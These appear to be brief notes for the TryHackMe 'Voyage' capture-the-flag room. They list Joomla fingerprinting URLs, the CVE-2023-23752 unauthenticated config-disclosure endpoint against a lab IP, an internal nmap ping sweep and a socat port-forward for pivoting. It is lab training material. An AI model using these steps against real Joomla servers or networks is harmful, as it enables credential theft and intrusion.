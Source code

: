 # for tryhackme room Voyage https://tryhackme.com/room/voyage
# Youtube video walk through: https://youtu.be/vB2KG0V-oc0

Joomla Version:

https://github.com/OWASP/joomscan

http://10[.]10[.]113[.]54/README.txt
http://10[.]10[.]113[.]54/administrator/manifests/files/joomla.xml

CVE-2023-23752

http://10[.]10[.]113[.]54/api/index.php/v1/config/application?public=true

nmap -sn 192.168.100.0/24

socat tcp-listen:5000,fork,reuseaddr tcp:192.168.100.12:5000 &
